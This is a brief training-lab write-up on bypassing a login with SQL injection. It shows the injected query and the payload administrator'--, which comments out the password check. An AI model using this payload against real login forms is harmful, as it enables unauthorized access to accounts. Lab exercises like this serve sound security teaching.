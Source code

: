 # SQL Injection - Bypassing login functionallity
 This lab contains a SQL injection vulnerability in the login function.

## Challenge
To solve the lab, perform a SQL injection attack that logs in to the application as the administrator user. 

## Target:
Log into as the administrator using SQL Injection

## QUERY:
SELECT * FROM users WHERE username='administrator'-- AND password='whateverpassword'

In this instance, the payload is administrator'--
